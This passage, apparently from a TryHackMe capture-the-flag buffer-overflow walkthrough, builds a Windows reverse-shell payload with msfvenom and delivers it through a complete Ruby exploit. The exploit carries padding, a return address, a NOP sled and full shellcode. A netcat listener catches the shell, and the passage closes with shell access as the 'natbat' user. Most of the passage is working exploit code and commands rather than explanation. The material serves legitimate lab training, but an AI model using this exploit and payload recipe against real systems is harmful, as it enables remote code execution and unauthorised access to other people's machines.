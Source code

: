 Now, we have a working template in both Python and Ruby, we can choose either one of them. I am using the final Ruby template for the actual show. However, first we need to create a new payload by using the IP address on THM:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.87.151 LPORT=6000 -f rb -a x86 --platform windows -b "\x00\x0A"
```
Couple of things to note here. LHOST has my IP when I connect to THM via openvpn, you can find that out by running:
```bash
ifconfig
```
And look for ```tun0``` device. You also notice that I am using a different port for LPORT on my machine. I just wanted to use a different port than 5555. Now, we need to copy and paste the encoded payload into our Ruby template:

![Final Shellcode Payload](finalExplRuby.png)
```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xda\xd4\xbf\x37\xf4\x5a\xb9\xd9\x74\x24\xf4\x5a\x2b\xc9" +                                                                                                            
"\xb1\x52\x31\x7a\x17\x83\xc2\x04\x03\x4d\xe7\xb8\x4c\x4d" +                                                                                                            
"\xef\xbf\xaf\xad\xf0\xdf\x26\x48\xc1\xdf\x5d\x19\x72\xd0" +                                                                                                            
"\x16\x4f\x7f\x9b\x7b\x7b\xf4\xe9\x53\x8c\xbd\x44\x82\xa3" +                                                                                                            
"\x3e\xf4\xf6\xa2\xbc\x07\x2b\x04\xfc\xc7\x3e\x45\x39\x35" +                                                                                                            
"\xb2\x17\x92\x31\x61\x87\x97\x0c\xba\x2c\xeb\x81\xba\xd1" +                                                                                                            
"\xbc\xa0\xeb\x44\xb6\xfa\x2b\x67\x1b\x77\x62\x7f\x78\xb2" +                                                                                                            
"\x3c\xf4\x4a\x48\xbf\xdc\x82\xb1\x6c\x21\x2b\x40\x6c\x66" +                                                                                                            
"\x8c\xbb\x1b\x9e\xee\x46\x1c\x65\x8c\x9c\xa9\x7d\x36\x56" +                                                                                                            
"\x09\x59\xc6\xbb\xcc\x2a\xc4\x70\x9a\x74\xc9\x87\x4f\x0f" +                                                                                                            
"\xf5\x0c\x6e\xdf\x7f\x56\x55\xfb\x24\x0c\xf4\x5a\x81\xe3" +
"\x09\xbc\x6a\x5b\xac\xb7\x87\x88\xdd\x9a\xcf\x7d\xec\x24" +
"\x10\xea\x67\x57\x22\xb5\xd3\xff\x0e\x3e\xfa\xf8\x71\x15" +
"\xba\x96\x8f\x96\xbb\xbf\x4b\xc2\xeb\xd7\x7a\x6b\x60\x27" +
"\x82\xbe\x27\x77\x2c\x11\x88\x27\x8c\xc1\x60\x2d\x03\x3d" +
"\x90\x4e\xc9\x56\x3b\xb5\x9a\x52\xb5\xe2\xcd\x0b\xc7\x0c" +
"\xe5\xbb\x4e\xea\x63\x2c\x07\xa5\x1b\xd5\x02\x3d\xbd\x1a" +
"\x99\x38\xfd\x91\x2e\xbd\xb0\x51\x5a\xad\x25\x92\x11\x8f" +
"\xe0\xad\x8f\xa7\x6f\x3f\x54\x37\xf9\x5c\xc3\x60\xae\x93" +
"\x1a\xe4\x42\x8d\xb4\x1a\x9f\x4b\xfe\x9e\x44\xa8\x01\x1f" +
"\x08\x94\x25\x0f\xd4\x15\x62\x7b\x88\x43\x3c\xd5\x6e\x3a" +
"\x8e\x8f\x38\x91\x58\x47\xbc\xd9\x5a\x11\xc1\x37\x2d\xfd" +
"\x70\xee\x68\x02\xbc\x66\x7d\x7b\xa0\x16\x82\x56\x60\x26" +
"\xc9\xfa\xc1\xaf\x94\x6f\x50\xb2\x26\x5a\x97\xcb\xa4\x6e" +
"\x68\x28\xb4\x1b\x6d\x74\x72\xf0\x1f\xe5\x17\xf6\x8c\x06" +
"\x32"

RHOST = "10.10.110.117"
RPORT = 31337


require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff}
```
Before running our Ruby script, let's start our netcat listener ```bash nc -nlvp 6000``` and let's fire away our Ruby script ```ruby shellcode.rb```

![Final Reverseshell](finalReverseshell.png)

Nice, we are now in the machine as natbat user. Next, we'll look for some information...

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
